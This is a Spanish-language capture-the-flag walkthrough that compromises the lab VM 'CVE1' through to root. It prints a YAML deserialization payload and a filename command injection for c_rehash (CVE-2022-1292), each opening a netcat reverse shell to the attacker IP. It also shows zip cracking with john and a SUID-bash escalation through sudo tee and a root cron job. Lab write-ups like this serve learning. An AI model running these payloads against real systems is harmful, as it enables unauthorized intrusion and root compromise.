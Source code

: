 ```php 
##########################################################################################################
#
# CTF a la Máquina CVE1 de InfayerTS (Thanks) basada en el writeup de Pablo AKA LordP4 (Thanks)
# pero finalizándola como creo que la planteó su autor.
#
# Lo dejo por aquí por si a alguien le puede resultar interesante
#
# DATE: 16/Agosto/2023
#
#########################################################################################################
```
# Footprinting

```bash 
IP_atacante -> $ifconfig -> 192.168.0.79
IP_objetivo -> $netdiscover -r 192.168.0.0/24 -> 192.168.0.86
```

# Escaneo y Enumeración

## Veo que puertos tiene abiertos,

```php 
nmap -sVC -T5 -n -p- 192.168.0.86
```
* Obtengo los siguientes puertos abiertos, 22 SSH, 80 y 9090 HTTP

```php 
PORT   STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 3a9a6c9800a7c86694fe587e61a7f9e8 (RSA)
|   256 9d6f0d13023c6545791b3d9be25e245f (ECDSA)
|_  256 82ba5482f71da265fc9f25dc43ee7e4c (ED25519)
80/tcp   open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.54 (Debian)
9090/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

* En el puerto 80 está la web de debian sin aparente modificación

* La web en el puerto `9090`, en su código fuente tiene este comentario

```php
 #Fichero<br /><!--Backend developed with PyTorch Lightning 1.5.9-->
```

* La vulnerabilidad y la POC está documentada en [https://huntr.dev/bounties/31832f0c-e5bb-4552-a12c-542f81f111e6/]
 
* Creo un fichero yml
```yml
- !!python/object/new:yaml.MappingNode
  listitems: !!str '!!python/object/apply:subprocess.Popen [["nc","-e", "/bin/bash", "192.168.0.79", "1234"]]'
  state:
    tag: !!str dummy
    value: !!str dummy
    extend: !!python/name:yaml.unsafe_load
```
* Pongo un netcat a la escucha, pero no me funciona

* Hago búsqueda de directorios y ficheros y veo que existe un fichero llamado `file.yaml`

```php
gobuster dir -r -u http://192.168.0.86:9090/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,yaml

===============================================================
2023/08/10 22:39:59 Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 200) [Size: 676]
/file.yaml            (Status: 200) [Size: 235]
```
* Lo hago pero llamando el fichero `file.yaml`, espero un ratito y ahora si funciona

# Acceso

* Existe un usuario llamado `wicca` y dentro de `/etc/cron.d/` existe un fichero llamado `cve1` con este contenido

```php
*/1 * * * * www-data python3 /var/www/cve/2021-4118.py
*/1 * * * * www-data sleep 20; python3 /var/www/cve/2021-4118.py
*/1 * * * * www-data sleep 40; python3 /var/www/cve/2021-4118.py
*/1 * * * * wicca c_rehash /etc/ssl/certs/
*/1 * * * * wicca sleep 30; c_rehash /etc/ssl/certs/
*/1 * * * * root python3 /root/0845.py
*/1 * * * * root sleep 20; python3 /root/0845.py
*/1 * * * * root sleep 40; python3 /root/0845.py
```
* El comando `c_rehash` tiene una vulnerbilidad **CVE-2022-1292**, [https://github.com/alcaparra/CVE-2022-1292/blob/main/README.md]

1. Me voy al directorio `/etc/ssl/certs`
2. Me creo el fichero
```php
echo "-----BEGIN CERTIFICATE-----" > "hey.crt\`nc -c sh 192.168.0.79 12345\`"
```
3. Espero que se ejecute el cron y ya soy `wicca`
4. Obtengo bandera

```console
HMVM{}
```

# Elevación a Root

* Ejecuto un `sudo -l`

```php
User wicca may run the following commands on cve-pt1:
    (root) NOPASSWD: /usr/bin/tee
```
> El comando `tee` redirecciona a un fichero, parecido a lo que hace `>`

# Hasta ahora es clavado al writeup de Pablo

## Elevación a root II forma

* En el directori de `wicca` tenemos un fichero zip protegido con contraseña. Me lo traigo a mi máquina y lo crackeo con John.

```php
zip2john Backup.zip > Backup.zip.hash

john --wordlist=/usr/share/wordlists/rockyou.txt Backup.zip.hash
```

* La password es `secret!` y dentro tengo un fichero en python `0845.py`

```python
───────┬────────────────────────────────────────────────────────────
       │ File: 0845.py
───────┼────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ 
   3   │ import os, sys
   4   │ from pytorch_lightning import Trainer
   5   │ from pytorch_lightning.utilities.argparse import *
   6   │ 
   7   │ os.environ["PL_TRAINER_GPUS"] = 'os.system("COMMAND LIST")'
   8   │ parse_env_variables(Trainer)
───────┴────────────────────────────────────────────────────────────
```

* Y un fichero `readme.txt`

```php
Dear Admin,

I leave you in this directory the script that I have developed, be sure to take a look at the code and parameterize the command you want to run.

Best regards,

PS: For convenience you can indicate a text file with the list of command you want to run.

Wicca
Developer of Doom
```

* En el cron también vi una línea que ejecutaba un script python

```php
*/1 * * * * root python3 /root/0845.py
```

* Y debe tener una línea `'os.system("COMMAND LIST")'` en la que que **COMMAND LIST** llamará a un fichero de texto con el comando que quiera ejecutar.
 
* Puedo intentar modificar un supuesto fichero `/root/command.txt`, según comenta en el *readme* con un comando a ejecutar, porque puedo usar `tee` como `root`

```php
echo "chmod u+s /bin/bash" | sudo /usr/bin/tee /root/command.txt
```

* Y esperar a que el cron lo ejecute

```php
ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

* Ejecuto un `bash -p` y ya soy `root`

```php
bash -p
bash-5.1# whoami
whoami
root
```

* Obtengo bandera

```php
bash-5.1# ls -l
ls -l
total 12
-r--r----- 1 root root 248 Dec  7  2022 0845.py
-rw-r--r-- 1 root root  20 Aug 16 10:10 command.txt
-r-------- 1 root root  39 Dec  7  2022 root.txt
bash-5.1# cat root.txt
cat root.txt
HMVM{}
```
